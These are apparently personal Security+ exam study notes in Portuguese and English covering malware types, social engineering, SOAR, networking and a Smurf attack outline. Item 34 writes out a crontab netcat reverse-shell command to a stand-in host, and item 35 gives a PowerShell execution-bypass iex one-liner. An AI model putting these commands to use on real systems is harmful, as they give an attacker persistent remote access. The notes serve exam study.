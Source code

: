 # Conhecimentos adiquiridos após fazer testes

## Threats, Malwares and Common Vulnerabilities

1. **Shimming** is when the attacker places some malware between an application and some other file and intercepts the communication to that file (usually to a library or system API). In many cases, this is done with a driver for a hardware component.
2. **Refactoring** é o ato de refatorar o código(e o comportamento) do malware para ele não ser reconhecido em nenhum software anti-malware baseado em signature
3. “Cyberintelligence **fusion** is the process of gathering, analyzing, and then distributing information between disparate agencies and organizations. **Fusion centers** like those operated by the U.S. Department of Homeland Security (DHS) focus on strengthening shared intelligence activities.”
4. No sentido estrito da palavra, **malwares podem ser considerados PUPs**
5. “**White teams** act as judges and observers during cybersecurity exercises.”
6. “SOAR is a relatively new category as defined by Gartner. Security orchestration, automation, and response includes threat and vulnerability management, security incident response, and security operations automation, **but not automated malware analysis**.”
7. “**rootkits are more likely** to be detected by AV programs”
8. Principios da engenharia social:
      1. Familiarity
      2. Trust
      3. Scarcity
      4. Authority
      5. Urgency
      6. Intimidation
      7. Consensus, sometimes called social proof, is a social engineering principle that leverages the fact that people are often willing to trust groups of other people.
9. Polymorphic Virus é um Virus que muda sua forma a cada execução
10. Time-of-Check/Time-of-use é uma espécie de race condition
11. “Elicitation, or the process of eliciting information through conversation to gather useful information, is a key tool in a penetration tester’s social engineering arsenal.”
12. “A macro virus is a malicious script (macro) embedded into a file, typically a Microsoft Office file. They are typically written in Visual Basic for Applications (VBA) script”
13. “ Pharming attempts to redirect traffic intended for a legitimate site to another malicious site. Attackers most often do this by changing the local hosts file or by exploiting a trusted DNS server.”
14. Apesar de acharmos que um IP estrangeiro seja uma obrigatoriedade de uma APT “would attack from a foreign IP address, they often use a compromised address in the target country as a base for attacks”
15. Prepending : “Prepending is described by CompTIA as “adding an expression or a phrase,”. “Thus, you need to know that when it is used for this exam it can mean one of three things: adding an expression or phrase to an email, subject line, or headers to either protect or fool users. They also note that it can be used when adding data as part of an attack, and that social engineers may “prepend” information by inserting it into conversation to get targets to think about things the attacker wants them to.”
16. “Although auditing some libraries or libraries that are custom-developed for the code is common, auditing all libraries used in the code is unlikely except in exceptional situations.”
17. “A denial-of-service (DoS) attack may target a memory leak. If an attacker can induce the web application to generate the memory leak, then eventually the web application will consume all memory on the web server and the web server will crash.”
18. **Skimming** is stealing our credit card information as we use the card for some other purpose.
19. **Man in the Browser** Malware is used to change the client's computer network routing to perform a classic man-in-the-middle attack.
20. Botnets geralmente se conectam com o Command and Control via IRC, um protocolo antigo usado para Internet Relay Chat. Padrao do IRC de fato sempre foi executar o IRC em TCP 6667.
21. Calling their extension é ligar para o RAMAL. Vishing é Phishing de Voice, não de Video!
22. O arquivo /etc/passwd é um banco de dados de informações baseadas em texto sobre os usuários que podem logar no sistema ou outras identidades de usuários do sistema operacional que possuem processos em execução. Uma solução é um arquivo de senhas "sombra" (shadow) para armazenar os hashes de senha separados de outros dados no arquivo passwd legível globalmente. Para arquivos locais, ele normalmente é o /etc/shadow nos sistemas Linux e Unix
23. “Although Structured Query Language (SQL) queries are often parameterized, Lightweight Directory Access Protocol (LDAP) security practices focus instead on user input validation and filtering of output to ensure that an excessive amount of data is not being returned in queries”
24. “URL redirection has many legitimate uses, from redirecting traffic from no-longer-supported links to current replacements to URL shortening, but URL redirection was commonly used for phishing attacks. Modern browsers display the full, real URL, helping to limit the impact of this type of attack.”
25. Security orchestration, automation, and response (SOAR) services are designed to integrate with a broader range of both internal and external applications. Tanto SOAR quanto SIEM são automatizados, mas o SOAR é integrado para responder a ataques
26. “The U.S. Trusted Foundry program is intended to prevent supply chain attacks by ensuring end-to-end supply chain security for important integrated circuits and electronics.”
27. “Passwords in memory are often stored in plain text for use.”
28. Ao colocar uma URL como parametro de uma request: “This is an attempt to get the server to send a request to itself as part of an API call, and it is an example of server-side request forgery.”
29. “Hybrid warfare is a relatively new term that describes the multipronged attacks conducted as part of a military or national strategy of political warfare that uses traditional, asymmetric, and cyberwarfare techniques along with influence methods to achieve goals”
30. “Linux privileges can be set numerically, and 777 sets user, group, and world to all have read, write, and execute access to the entire /etc directory.”
31. “ISACs, são information sharing and analysis centers, ”
32. “CompTIA defines “maneuver” in the context of threat hunting as how to think like a malicious user to help you identify potential indicators of compromise in your environment.”
33. “Proprietary, or closed threat, intelligence is threat intelligence that is not openly available”
34. crontab -e 0 * * * * nc(NETCAT) example.com 8989 -e /bin/bash -> Esse comando faz uma reverse shell usando o crontab para fazer um netcat de hora em hora para se conectar a um dominio pela porta 8989 e permitir a execução do /bin/bash
35. powershell.exe -ep Bypass -nop -noexit -c iex -> Upload algo para a memoria
36. “The Security+ exam outline lists seven major impact categories, including data loss, data breaches, and data exfiltration. Data modification is not listed, but it is a concern as part of the integrity leg of the CIA triad”
37. Caso seu sistema esteja sendo acessado em diferentes portas, pode estar ocorrendo um Scan
38. A primeira coisa a se fazer ao identificar uma Vuln é acessar a CVE e ver as fixes


## Architecture and Design

1. SAN é sigla de Storage Area Network
2. Perfect forward secrecy (PFS) is used to change keys used to encrypt and decrypt data, ensuring that even if a compromise occurs, only a very small amount of data will be exposed
3. “warm site, which has some or all of the infrastructure and systems he needs but does not have data.”
4. “Storage area network (SAN) replication copies the contents of one repository to another repository, such as an organization’s central SAN environment to a remote SAN at the hardware or block level.”

# New Book

## Chapter 1

1. A jump server, jump host or jump box is a system on a network used to access and manage devices in a separate security zone
2. SSL passthrough is the action of passing data through a load balancer to a server without decrypting it
3. SSL termination is a process by which SSL-encrypted data traffic is decrypted (or offloaded)
4. IPV6 Link Local começam com FE80 enquanto IPV4 com 169.254, é o endereço unicast para se comunicar com a NIC
5. Protocolo de Descoberta de Vizinhos é um padrão do conjunto de protocolos de comunicação TCP/IP usado com o IPv6, que opera na camada de rede do modelo Internet, responsável por seguintes funções de configuração e descoberta: Autoconfiguração de endereço dos nós; Descoberta de outros nós na rede local


### Load Balancing
1. Health probes allows Load Balancers to detect the backend endpoint status.
2. Fixed Weighting is a load balancing algorithm where the administrator assigns a weight to each application server
3. Round Robin é um por vez
4. Least Connection é redirecionar para o que tiver menos
5. A reverse proxy accepts clients requests and forwards them to an internal host or hosts for processing, thus hiding the true identity of the internal host(s). É o termo mais proximo de Load Balancer

# Jason Dion

1. Em criptografia, RC4 era o algoritmo simétrico de criptografia de fluxo mais usado no software e era utilizado nos protocolos mais conhecidos, como Secure Socket Layers e WEP
2. Cain & Abel (frequentemente abreviado para Cain) é uma ferramenta de recuperação de senha para Microsoft Windows. Ele pode recuperar muitos tipos de senhas usando métodos como sniffing de pacotes de rede, decifrando vários hashes de senhas, por meio do uso de métodos como ataques de dicionário, força bruta e ataques de análise de criptografia.[1] Os ataques de criptoanálise são feitos através de tabelas de arco-íris, que podem ser geradas com o programa winrtgen.exe, fornecido com o Cain & Abel
3. MSSP vem da sigla em inglês Managed Security Services Providers. São empresas que proveem serviços gerenciados de segurança para outras empresas, através de um SOC – Security Operations Center. 

## SMURF ATTACK

A Smurf attack scenario can be broken down as follows:

1. Smurf malware is used to generate a fake Echo request containing a spoofed source IP, which is actually the target server address.
2. The request is sent to an intermediate IP broadcast network.
3. The request is transmitted to all of the network hosts on the network.
4. Each host sends an ICMP response to the spoofed source address.
5. With enough ICMP responses forwarded, the target server is brought down.
